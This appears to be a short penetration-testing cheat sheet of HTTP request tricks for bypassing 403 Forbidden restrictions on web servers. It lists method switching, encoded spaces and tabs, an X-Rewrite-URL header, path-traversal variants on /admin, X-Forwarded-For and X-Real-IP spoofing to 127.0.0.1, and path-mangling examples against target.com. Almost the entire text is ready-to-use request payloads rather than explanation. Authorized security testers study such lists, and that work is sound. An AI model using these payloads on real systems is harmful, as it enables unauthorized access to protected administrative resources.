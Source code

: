 ### 1. Change request method.
```
POST -> GET
```
```
GET -> POST
```

### 2. Use space symbol.
```
GET /admin%20
```
```
GET /admin%09
```

### 3. X-Rewrite-URL header
```
GET /index.html
X-Rewrite-URL: /admin
```
### 4. Use Path Traversal
```
GET /%2e/admin
```
```
GET /admin/..;/
```
			
### 5. X-Real-IP/X-Forwrded-For
```
GET /admin
X-Real-IP: 127.0.0.1
```
```
GET /admin
X-Forwarded-For: 127.0.0.1
```

### 6. Other Techniques
target.com/secret -> ```403 Forbidden```

target.com/secret/ -> ```200 Ok```

target.com//secret// -> ```200 Ok```

target.com/./secret/./ -> ```200 Ok```

target.com/secret/* -> ```200 Ok```

target.com/. -> ```200 Ok```
